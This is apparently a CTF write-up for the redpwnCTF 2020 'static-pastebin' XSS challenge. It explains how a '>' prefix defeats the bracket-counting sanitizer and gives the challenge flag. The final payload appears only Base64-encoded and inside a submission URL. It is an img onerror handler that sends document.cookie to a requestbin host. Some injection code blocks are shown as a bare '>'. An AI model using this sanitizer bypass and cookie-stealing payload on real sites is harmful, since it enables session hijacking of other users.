



# static-pastebin
[](https://shields.io/)

## Challenge


There are two links:
1. https://static-pastebin.2020.redpwnc.tf/ to test the XSS;
2. https://admin-bot.redpwnc.tf/submit?challenge=static-pastebin to submit the solution and get flag.

## XSS
At the moment we just need the first link.



The `script.js` inside generates the link I have to enter in the admin-bot page:

```javascript
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const button = document.getElementById('button');
    button.addEventListener('click', () => {
        const text = document.getElementById('text');
        window.location = 'paste/#' + btoa(text.value);
    });
})();
```

It takes the text I have inserted and encodes it in Base64 (`btoa(text.value)`).

If I write something and we click `Create`, the static-pastebin generates a new html page displaying what I wrote. However if I try to write an HTML tag, it is removed so that XSS may not be possible.

`script.js` inside the generated HTML document applies a control against script injection:

```javascript
function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```

If there is `>` before the tag, the counter is decreased before it is increased, so the tag is not delated.

The objective is to find a snippet of code that can run **automatically** some javascript code when the admin-bot visits my link.

The injection is:

```html
>
```

Since the image `sdfg` doesn't exist in the admin computer, the `onerror` event is triggered and the javascript is executed. `url` is replaced by a [requestbin](http://requestbin.net/) url.

However, when I clicked *Create*, the browser showed me an error: `Blocked loading mixed active content` because I was trying to fetch data from an https page through an http connection. Requestbin doesn't provide a https webhook so this xss can't work with that url.

Another possible solution is:

```html
>
```

`window.location.href` is a property that I can set to redirect the page to the url I'm setting. So I can make a fake request to the requestbin url and set a request parameter `a` with the cookie of the admin-bot browser.

I generated the Base64 encoding of the xss:

```
PjxpbWcgc3JjPSJhc2RmIiBvbmVycm9yPSJ3aW5kb3cubG9jYXRpb24uaHJlZj0naHR0cDovL3JlcXVlc3RiaW4ubmV0L3IvMWgyY3lxbzEvP2E9JyArIGRvY3VtZW50LmNvb2tpZSI+
```

and I built the url to subit in the admin-bot page:

```
https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPSJhc2RmIiBvbmVycm9yPSJ3aW5kb3cubG9jYXRpb24uaHJlZj0naHR0cDovL3JlcXVlc3RiaW4ubmV0L3IvMWgyY3lxbzEvP2E9JyArIGRvY3VtZW50LmNvb2tpZSI+
```

Lastly I submitted the url generated by this page to the admin bot page that sent to the requestbin webhook the flag:



## Flag

`flag{54n1t1z4t10n_k1nd4_h4rd}`